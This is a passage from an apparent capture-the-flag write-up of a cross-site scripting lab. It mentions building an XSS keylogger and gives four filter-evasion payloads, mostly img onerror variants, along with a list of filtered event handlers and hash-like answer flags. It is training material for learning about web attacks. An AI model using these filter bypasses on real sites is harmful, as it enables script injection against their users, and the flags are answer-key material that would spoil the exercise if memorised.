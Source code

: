 Now you have this script, can you adapt it and post it into the stored xss page. Then start typing on that page and see it appear on the logs page.

1. Create your own version of an XSS keylogger and see it appear in the logs part of the site.

## Task 8 Filter Evasion

There are many techniques used to filter malicious payloads that are used with cross-site scripting. It will be your job to bypass 4 commonly used filters.

Navigate to "Filter Evasion" in the XSS Playground to get started.

Cross-site scripting are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.

* XSS found in Shopify
* $7,500 for XSS found in Steam chat
* $2,500 for XSS in HackerOne
* XSS found in Instagram

1. Bypass the filter that removes any script tags.

`<img src="blah" onerror=alert("Hello") />`

`3c3cf8d90aaece81710ab9db759352c0`

2. The word alert is filtered, bypass it.

`<img src="blah" onerror=confirm("Hello") />`

`a2e5ef66f5ff584a01d734ef5edaae91`

3. The word hello is filtered, bypass it.

`<img src="blah" onerror=alert("HHelloello") />`

`decba45d0eff17c6eedf1629393bee1d`

4. Filtered in challenge 4 is as follows:

* word "Hello"
* script
* onerror
* onsubmit
* onload
* onmouseover
* onfocus
* onmouseout
* onkeypress
* onchange

`<img src="blah" ONERROR="alert('HHelloello')" />`

`2482d2e8939fc85a9363617782270555`

## Task 9 Protection Methods & Other Exploits
